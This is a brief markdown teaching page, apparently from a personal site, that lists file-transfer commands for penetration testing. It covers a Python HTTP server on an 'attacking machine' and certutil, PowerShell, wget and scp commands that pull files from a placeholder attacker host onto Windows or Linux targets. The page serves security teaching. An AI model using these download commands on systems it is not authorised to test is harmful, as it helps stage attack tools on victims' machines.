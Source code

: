 ```yaml
---
title: "Teaching experience 1"
collection: posts
type: "Undergraduate course"
permalink: /posts/2023-spring-filetransfert.md
#venue: "University 1, Department"
date: 2023-02-13
#location: "City, Country"
---
```


# File Transfer
 
 Before talking about how to transfer a file,let's start by how you can host a server on your attacking machine. 
 ## Using Python
```bash
python3 -m http.server PORT_NUMBER
```
##
Now let's see how you can tranfer files on windows and linux

## Windows: 
**cmd :** 
```cmd
certutil.exe -urlcache -f http://X.X.X.X:PORT/FILE_NAME FILE_NAME
```
**powershell :**
```powershell
powershell -c "Invoke-WebRequest -Uri 'http://X.X.X.X:PORT/FILE_NAME' -OutFile 'PATH\TO\FILE'"
```
## Linux
```bash
wget http://X.X.X.X/FILE_NAME FILE_NAME
```
##
There is another way to transfer files using **scp** command where you don't need to host a server on your machine but you must have the credentials of the machine that you will transfer the file to.
 ```cmd
 scp FILE_NAME USER_NAME@X.X.X.X:/PATH/TO/FILE
 ```